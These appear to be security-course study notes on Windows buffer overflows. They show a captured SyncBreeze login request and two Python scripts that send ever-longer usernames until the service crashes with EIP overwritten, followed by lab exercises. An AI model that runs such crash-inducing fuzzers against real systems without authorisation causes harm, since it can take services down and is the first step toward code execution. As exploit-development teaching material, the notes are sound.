 # Windows Buffer Overflows
We will be discovering and exploiting a vulnerability in the SyncBreeze application. The process consists of several steps. First, the vulnerability in the code must be discovered - in  this situation, we do not have access to the source code. Second, we will have to create our input in a way so that we gain control of the critical CPU registers. Finally, we need to manipulate the memory to gain reliable remote code execution.

# Discovering the Vulnerability
Generally speaking, there are three primary techniques for identifying flaws in applications.
1. Source code review - this is the easiest, but requires access to the source code
2. Reverse engineering techniques
3. Fuzzing

The goal of fuzzing is to provide the target application with input that is incorrectly handled, resulting in the application crashing. The input is programmatically generated to be malformed, and if a crash occurs due to this malformed data, it may be indicative of a potential vulnerability such as buffer overflow.

## Fuzzing the HTTP protocol
The Windows 10 Lab Machine is able to run our SyncBreeze service by going to *services.msc* > right-click SyncBreeze > *Start*.

The SyncBreeze vulnerability lies in the login page, but since we do not know of this vulnerability, we would begin fuzzing every input field offered by the application, looking for any crashes caused by our input.

In order to begin fuzzing our input, we first need to sample the network traffic passing from the client and server for us to use as our input data/seed.

We launch *Wireshark* on our Kali machine and monitor port 80 as we attempt to log in to SyncBreeze. We can identify the three-way handshake followed by our HTTP traffic.

```
POST /login HTTP/1.1
Host: 10.11.0.22
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.11.0.22/login
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=AAAA&password=BBBBHTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 730

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/h
<html>
<head>
<meta http-equiv='Content-Type' content='text/html; charset=UTF-8'>
<meta name='Author' content='Flexense HTTP Server v10.0.28'>
<meta name='GENERATOR' content='Flexense HTTP v10.0.28'>
<title>Sync Breeze Enterprise @ DESKTOP-4MK82OB - Error</title>
<link rel='stylesheet' type='text/css' href='resources/syncbreeze.css' media='all'>
</head>
<body>
<center>
<div class='error_message' style='margin-top: 200px;'>
<p>The specified user name and/or password is incorrect.</p>
</div>
<input style='margin-top: 20px;' type='button' value='Close' onClick="history.go(-1);"
</center>
</body>
</html>
```

Using this, we can begin building our fuzzer with a Python POC script.
```python
#!/usr/bin/python
import socket

try:
    print "\nSending evil buffer..."

    size = 100
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.210.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://10.11.0.22/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("192.168.210.10", 80))
    s.send(buffer)
    
    s.close()

    print "\nDone!"
    
except:
    print "Could not connect!"
```

Since we are trying to find the buffer overflow vulnerability, we build our generation-based fuzzer such that it will send multiple HTTP POST requests with increasing longer usernames.
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.11.0.22\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://10.11.0.22/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("10.11.0.22", 80))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print "\nCould not connect!"
    sys.exit()
```

Before we can run our fuzzer, we need to attach the debugger to the SyncBreeze process that is listening on TCP port 80. We will use *Microsoft TCPView* for this (uncheck "Resolve Addresses").
![[Pasted image 20221226233625.png]]

Once we have attached the debugger, the application is paused so we will need to resume it by pressing F9.

We can see that once the username reaches 800 bytes in length, we obtain an access violation with EIP at 41414141.






***
# Topical Exercises

1.  Build the fuzzer and replicate the SyncBreeze crash.
	1. ![[Pasted image 20221227000624.png]]
2.  Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?